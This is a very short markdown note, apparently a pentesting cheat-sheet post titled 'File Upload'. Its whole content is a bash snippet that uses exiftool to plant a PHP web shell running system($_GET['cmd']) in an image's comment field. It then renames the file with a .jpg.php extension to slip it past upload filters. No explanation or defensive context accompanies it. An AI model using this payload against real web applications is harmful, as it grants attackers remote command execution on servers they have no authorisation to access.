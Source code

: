 ```yaml
---
layout: post
title:  "File Upload"
date:   2022-01-01
categories: web
---
```



## Exiftool php in image

```bash

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' 1.jpg

mv 1.jpg 1.jpg.php

```